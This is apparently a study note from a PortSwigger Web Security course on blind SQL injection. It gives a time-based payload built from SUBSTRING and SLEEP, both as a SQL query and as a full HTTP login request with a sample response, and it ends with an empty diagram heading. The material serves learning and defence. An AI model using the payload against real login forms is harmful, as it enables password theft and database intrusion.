

## Blind-Based SQL Injection

Blind-based SQL Injection is a technique where the attacker cannot see the results of the injected SQL code but can infer information based on the behavior of the application.

### Example of Blind-Based SQL Injection

Consider a query that checks if a user exists:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password';
```

An attacker might inject a time delay to infer information:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password' AND 1=IF(SUBSTRING(password,1,1)='a',SLEEP(5),0);
```

This query causes a delay if the first character of the password is 'a'.

### Full HTTP Request and Response

Here’s an example of a full HTTP request and response for a blind-based SQL Injection attack:

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

username=admin' AND 1=IF(SUBSTRING(password,1,1)='a',SLEEP(5),0)--
```

Response:

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Login</title>
</head>
<body>
    <h1>Login Failed</h1>
</body>
</html>
```

### Mermaid Diagram for Blind-Based Attack



---
<!-- nav -->
[[Web Security (PortSwigger)/02-SQL Injection/11-Lab 10 SQL injection attack listing the database contents on Oracle/01-Introduction to SQL Injection|Introduction to SQL Injection]] | [[Web Security (PortSwigger)/02-SQL Injection/11-Lab 10 SQL injection attack listing the database contents on Oracle/00-Overview|Overview]] | [[03-Detection and Monitoring|Detection and Monitoring]]
